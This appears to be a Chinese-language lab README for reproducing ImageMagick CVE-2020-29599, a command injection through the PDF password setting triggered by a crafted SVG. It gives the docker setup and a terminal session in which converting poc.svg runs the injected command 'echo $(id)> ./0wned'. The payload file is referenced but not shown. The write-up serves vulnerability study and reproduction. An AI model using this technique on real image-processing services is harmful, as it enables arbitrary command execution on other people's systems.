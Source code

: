 # Imagemagick PDF密码位置命令注入漏洞（CVE-2020-29599）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 漏洞环境与复现

直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker compose run im bash
```

进入`/tmp`目录，对[poc.svg](poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

此时命令`echo $(id)> ./0wned`已执行成功：

![](1.png)
